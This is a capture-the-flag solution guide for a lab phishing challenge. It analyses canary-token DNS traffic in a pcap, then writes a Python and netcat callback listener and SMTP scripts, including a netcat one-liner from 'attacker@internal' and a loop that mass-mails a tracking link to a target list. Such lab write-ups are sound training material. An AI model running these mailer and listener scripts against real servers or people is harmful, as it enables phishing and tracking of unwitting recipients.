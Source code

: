 # Phishing With Canaries

*Solution Guide*

## Overview

Analyze network activity, develop a custom canary token server, and identify key responders from a target list to uncover the final flag. 

## Part 1 - What domain did the PDF file connect to?

1. Start by analyzing the pcap file from `challenge.us`.

The prompt specifically asks for "what domain" did the PDF connect to. This is a clue that you should be looking for dns traffic. You can run a simple `dns` query in Wireshark to see all of the DNS requests. 

A majority of the traffic looks like benign network traffic that is to be expected. However, about 80% of the way down the pcap, there is a series of queries for a suspicious-looking domain: `arvc04xi09xk1xfp53y08baja.canarytokens.net`

The background information for this challenge referenced canary tokens, which is another clue that this is the correct answer. 

![DNS traffic showing suspicious domain](./images/c24.01.01.png "DNS traffic showing suspicious domain")

## Part 2 - What is the custom User-Agent string provided(4 characters)?

1. Create a TCP server to listen to callbacks that are triggered by the canary. 

This can be done by writing a small python script called `listener.py` and run it using `python listener.py`

```py
import socket

def start_canary_server(host="0.0.0.0", port=5000):
    """
    Starts a simple TCP server to act as an internal canary token.
    """
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        server_socket.bind((host, port))
        server_socket.listen(5)
        print("Canary token listening on {}:{}".format(host, port))
        
        while True:
            try:
                conn, addr = server_socket.accept()
                print("Connection from {}".format(addr))
                try:
                    data = conn.recv(1024).decode('utf-8')  # Read data from the connection
                    print(f"Access attempt from {addr}: {data}")
                finally:
                    conn.close()
            except Exception as e:
                print("Error: {}".format(e))
    finally:
        server_socket.close()

if __name__ == "__main__":
    start_canary_server()
```

Alternatively, instead of the Python server, you can set up a basic netcat listener.

```bash
nc -lvnp 5000
```

2. Connect to the SMTP mail server on `10.5.5.87:1025` to send an email containing a link that will connect to our callback server

This can be done by writing a small python script called `mail.py` and run it using `python mail.py`

```py
import smtplib
from email.mime.text import MIMEText

# Define email parameters
from_addr = "user0000@internal"
to_addr = "user0000@internal"
subject = "CTF Challenge"
body = "http://10.5.5.??:5000" # Update with your Kali machine's IP address

# Create MIMEText message
msg = MIMEText(body)
msg['Subject'] = subject
msg['From'] = from_addr
msg['To'] = to_addr

# Connect to the mail server
server = smtplib.SMTP('10.5.5.87', 1025)
server.sendmail(from_addr, [to_addr], msg.as_string())
server.quit()

print("Email sent successfully!")
```

Alternatively, you can use netcat and follow the SMTP protocol. Make sure to replace the `10.5.5.??` ip address with the IP address of your Kali machine.

```bash
printf "HELO internal\r\nMAIL FROM:<attacker@internal>\r\nRCPT TO:<user0000@internal>\r\nDATA\r\nSubject: Important Update\r\n\r\nClick the link below to proceed:\r\nhttp://10.5.5.??:5000\r\n\r\n.\r\nQUIT\r\n" | nc 10.5.5.87 1025
```

![Sending email with Python script](./images/c24.02.02a.png "Sending email with Python script")

You can find your Kali machine's IP address by using `ifconfig eth0` and looking at the `inet` field.

![Finding Kali machine's IP address](./images/c24.02.02b.png "Finding Kali machine's IP address")

3. Check the results of your callback server. You will find the token in the "User-Agent" header

With the Python script:

![Callback server showing User-Agent with Python script](./images/c24.02.03a.png "Callback server showing User-Agent with Python script")

With the netcat listener:

![Callback server showing User-Agent with netcat](./images/c24.02.03b.png "Callback server showing User-Agent with netcat")

Here you can see the 4 characters in the custom user agent are "clck"

## Part 3 - What is token #5(6 hex characters)?

1. Download the `part_3.txt` list of email addresses from the `challenge.us` server. 

2. Start up the callback server (the `listener.py` script) from Part 2, Step 1. You will want to redirect the output to a log file for later searching

```bash
python3 listener.py > output.log
```

2. Write a script to automate the process from part 2 to send emails to all of the email addresses in `part_3.txt`

```py
import smtplib
from email.mime.text import MIMEText

# Define email parameters
from_addr = "user6574@internal"
subject = "CTF Challenge"
body = "http://10.5.5.?:5000" # Update with your Kali machine's IP address

# Read target email addresses from targets.txt
with open("part_3.txt", "r") as file:
    targets = [line.strip() for line in file if line.strip()]

# Connect to the mail server
server = smtplib.SMTP('10.5.5.87', 1025)

# Send email to each target
for to_addr in targets:
    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = from_addr
    msg['To'] = to_addr
    server.sendmail(from_addr, [to_addr], msg.as_string())
    print(f"Email sent to {to_addr} successfully!")

server.quit()
```

3. Look through the responses and find Token #5

Note - prior to view `output.log`, you should stop `listener.py` (Ctrl+C) to write any buffered data to the `output.log` file. 

Start by searching for the "User-Agent"

```bash
cat output.log | grep User-Agent
```

![Searching for User-Agent in output.log](./images/c24.03.03a.png "Searching for User-Agent in output.log")

You should easily be able to identify at least one of the tokens from the response. From here, you will see the format of the relevant user agents is "TOKEN-#". You can use this information to perform a more specific search.

```bash
cat output.log | grep User-Agent | grep TOKEN-5
```

![Finding token #5 in User-Agent](./images/c24.03.03b.png "Finding token #5 in User-Agent")

You should now see a single result, with the token 5 value being, "bafe79" in this case.
